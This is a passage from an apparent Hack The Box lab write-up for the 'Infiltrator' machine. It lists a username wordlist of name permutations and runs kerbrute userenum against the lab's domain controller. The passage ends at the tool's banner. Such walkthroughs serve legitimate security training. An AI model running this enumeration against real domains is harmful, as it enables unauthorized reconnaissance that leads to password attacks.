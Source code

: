 ```c
lclark
clark
ethan
ethan.rodriguez
e.rodriguez
erodriguez
rodriguez
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ cat usernames.txt 
david
david.anderson
d.anderson
danderson
anderson
olivia
olivia.martinez
o.martinez
omartinez
martinez
kevin
kevin.turner
k.turner
kturner
turner
amanda
amanda.walker
a.walker
awalker
walker
marcus
marcus.harris
m.harris
mharris
harris
lauren
lauren.clark
l.clark
lclark
clark
ethan
ethan.rodriguez
e.rodriguez
erodriguez
rodriguez
```

As next step we looked for `valid usernames` using `kerbrute`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ ~/opt/05_password_attacks/kerbrute/kerbrute userenum -d infiltrator.htb --dc dc01.infiltrator.htb usernames.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 08/31/24 - Ronnie Flathers @ropnop

2024/08/31 21:58:23 >  Using KDC(s):
```